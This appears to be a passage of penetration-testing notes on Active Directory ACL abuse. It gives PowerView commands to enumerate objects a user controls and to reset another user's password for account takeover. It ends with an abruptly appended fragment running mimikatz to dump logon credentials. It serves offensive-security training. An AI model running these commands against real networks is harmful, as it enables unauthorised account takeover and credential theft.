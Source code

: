 Now, for each user, we will retrieve the ACL information. Then selecth the **Access property**. Finally, the `IdentityReference` to the user we are in control:
```console
PS C:\zeropio> foreach($line in [System.IO.File]::ReadLines("<PATH TO>\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match '<DOMAIN>\\<USER>'}}
```

Then follow the previous process to convert the GUID in human-readable format. The output of this command will be users that we may have control over them. Let's use PowerView to see which permissions has the next target, that we get in the previous command:
```console
PS C:\zeropio> $sid2 = Convert-NameToSid <NEXT USER>
PS C:\zeropio> Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2} -Verbose
```

Maybe we see here something of interes we may want to analyze digger:
```console
PS C:\zeropio> Get-DomainGroup -Identity "<GROUP OF THE TARGET>" | select memberof
```

We can now check that group:
```console
PS C:\zeropio> $itgroupsid = Convert-NameToSid "<GROUP>"
PS C:\zeropio> Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $itgroupsid} -Verbose
```

Keep searching the objects we will be finding. This can lead to a user takeover, a group takeover and others users takeover. With other privileges and permissions to sites we don't have access.

### BloodHound 

In BloodHound GUI we can select our start user as our starting node, in the **Node Info** scroll down to **Outbound Control Rights**. We will see object we have directly control.

## ACL Abuse Tactics 

First, we must authenticate as the user we have and change the password of the user we have control of. Authentication:
```console
PS C:\zeropio> $SecPassword = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
PS C:\zeropio> $Cred = New-Object System.Management.Automation.PSCredential('<DOMAIN>\<USER>', $SecPassword)
```

Now create a **SecureString Object**, which will be the password for the other user:
```console
PS C:\zeropio> $Password = ConvertTo-SecureString '<NEW PASSWORD>' -AsPlainText -Force
```

Finally, we use the function **Set-DomainUserPassword** to change the password:
```console
PPS C:\zeropio> Import-Module .\PowerView.ps1
PS C:\zeropio> Set-DomainUserPassword -Identity <TARGET USER> -AccountPassword $Password -Credential $Cred -Verbose
```


[DEV01]: PS C:\Users\backupadm\Documents> cd 'C:\Users\Public\'
[DEV01]: PS C:\Users\Public> .\mimikatz "privilege::debug" "sekurlsa::logonpasswords" exit 
[DEV01]: PS C:\Users\Public> tasklist /V |findstr backupadm